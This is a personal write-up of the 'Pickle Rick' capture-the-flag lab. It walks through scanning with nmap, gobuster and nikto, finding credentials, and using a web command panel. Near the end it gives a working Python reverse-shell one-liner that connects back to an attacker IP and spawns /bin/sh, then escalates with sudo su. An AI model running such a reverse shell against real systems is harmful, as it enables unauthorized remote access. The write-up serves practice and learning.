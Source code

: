 ```yaml
---
tags:
  - programming/hacking/practice
---
```


# Pickle Rick! 

This is a CTF room with no details. Start machine, answer questions. Let's go!


# Dev Diary

## Master Info

Info that I've gotten along the way
- /assets is a valid dir
- Server is Apache/2.4.18(Ubuntu)
- Ports 80 and 22 are open (possible ssh connection)
- Username: R1ckRul3s
- 22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
- 80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
- robots.txt just containts "Wubbalubbadubdub" => password?
- login.php (login page?)
- less Sup3rS3cretPickl3Ingred.txt => mr. meeseek hair

## Basics

Basics first - let's check that it is alive

```
ipadd=xx.xx.xxx.xxx
ping $ipadd
```

Now, let's map this thing and see what ports are open `nmap $ipadd`
- 22
- 80

Great, let's check out the website and see what we can find.

Looks like Rick is a Pickle again and he needs some secret ingredients to turn him back. Just got to log onto his
computer to figure it out. 


## GoBuster

Let's see if we have any interesting directories to check out:

```
gobuster dir -u $ipadd -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o ./01_gobust.log
```
- /assets - hey, we can access this! 

## Page source

Hey! There's a username hidden in there - Username: R1ckRul3s

## SSH

Let's just see if we can ssh into it. `ssh R1ckRul3s@10.10.191.221`


## Nikto

Scan server for vulnerabilities. This is a new one

```
nikto -h $ipadd
. . . 
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server may leak inodes via ETags, header found with file /, inode: 426, size: 5818ccf125686, mtime: gzip
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: OPTIONS, GET, HEAD, POST 
+ Cookie PHPSESSID created without the httponly flag
+ OSVDB-3233: /icons/README: Apache default file found.
+ /login.php: Admin login page/section found.
+ 7889 requests: 0 error(s) and 9 item(s) reported on remote host
+ End Time:           2021-12-07 13:38:56 (GMT-5) (1814 seconds)
```

## Logging In

Going to `./login.php` this gets to a log in screen. We can use the username and password shown above and.... that
works! This gets to an interesting page "Command Panel" where we can enter commands. 

```
> ls
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```

Running `cat Sup3rS3cretPickl3Ingred.txt` results in a failed page that says: `Command disabled to make it hard for
future PICKLEEEE RICCCKKKK.`

Which, okay. Using `less` instead of `cat` results in: `mr. meeseek hair`

Now, we can poke around the file system and run some commands:

```
>ls /home
rick
ubuntu

> ls /home/rick
second ingredients

>less /home/rick/second\ ingredients
1 jerry tear
```

Now, let's see if we can find and ssh key.


```
> ls -a /home/ubuntu
...
.ssh
...
```

None of that was working - cheated to see what needed to be done. Duh, reverse shell. The cheatsheet used perl, but I
love Python, so Python it is. Determined the python3 exists using `which python3`

```
export RHOST="10.9.12.1";export RPORT=1234;python3 -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

Get to root using `sudo su`. Now we can:

```
> sudo su
> cd /root
> ls -la

3rd.txt
cat 3rd.txt
```
